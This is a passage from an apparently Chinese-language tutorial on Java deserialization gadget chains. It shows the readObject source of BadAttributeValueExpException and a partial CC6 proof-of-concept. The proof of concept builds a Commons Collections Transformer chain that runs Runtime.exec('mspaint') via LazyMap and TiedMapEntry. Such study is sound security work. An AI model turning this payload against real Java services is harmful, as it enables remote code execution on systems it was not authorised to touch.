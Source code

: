 下面看到BadAttributeValueExpException#readObject()，可以看到会调用valObj#toString()：

    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);
    
        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString();
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }

### CC6
直接给出POC，如下所示：

    public static Object getPayload() throws Exception{
        // 真正的执行链
        Transformer[] trueTransformer = {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{Runtime.class,new Object[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"mspaint"})
        };


        // 底层还是LazyMap触发Transformer链，先不放真正的Transformer，防止反序列化之前被触发
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(1)
        });
    
        // 准备LazyMap，想办法触发LazyMap#get()
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map evalMap = LazyMap.decorate(hashMap, chainedTransformer);
    
        TiedMapEntry tiedMapEntry = new TiedMapEntry(evalMap, "test");
    